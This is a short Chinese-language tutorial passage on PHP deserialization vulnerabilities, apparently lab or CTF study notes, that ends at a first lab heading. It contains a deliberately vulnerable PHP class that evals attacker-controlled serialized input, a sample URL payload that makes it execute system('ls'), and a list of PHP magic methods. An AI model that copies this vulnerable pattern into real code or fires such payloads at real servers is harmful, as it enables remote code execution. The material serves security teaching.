 ### 反序列化漏洞
反序列化漏洞的成因：

1.反序列化过程中，unserialize()接收的值是可控的，通过修改这个值（字符串），得到所需要的代码，即生成的对象的属性值

2.通过调用方法，触发代码执行

```
<?php
highlight_file(__FILE__);
error_reporting(0);
class test{
    public $a = 'echo "this is test!!";';
    public function displayVar() {
        eval($this->a);
    }
}

$get = $_GET["benben"];  //benben为对象序列化后的字符串
$b = unserialize($get);  //$b把字符串$get反序列化为对象，更改字符串得到$a的值
$b->displayVar() ;  //调用方法触发可控代码

?>

例如
?benben=O:4:"test":1:{s:1:"a";s:13:"system("ls");";}
```

## 魔术方法
在 PHP 的序列化中，魔术方法（Magic Methods）是一组特殊的方法，这些方法以双下划线（__）作为前缀，可以在特定的序列化阶段触发从而使开发者能够进一步的控制 序列化 / 反序列化 的过程。

```
 __wakeup() //------ 执行unserialize()时，先会调用这个函数
 __sleep() //------- 执行serialize()时，先会调用这个函数
 __destruct() //---- 对象被销毁时触发
 __call() //-------- 在对象上下文中调用不可访问的方法时触发
 __callStatic() //-- 在静态上下文中调用不可访问的方法时触发
 __get() //--------- 用于从不可访问的属性读取数据或者不存在这个键都会调用此法
 __set() //--------- 用于将数据写入不可访问的属性
 __isset() //------- 在不可访问的属性上调用isset()或empty()触发
 __unset() //------- 在不可访问的属性上使用unset()时触发
 __toString() //---- 把类当作字符串使用时触发
 __invoke() //------ 当尝试将对象调用为函数时触发
```


# 反序列化靶场
## Level1-类的实例化
直接将FLAG实例化即可
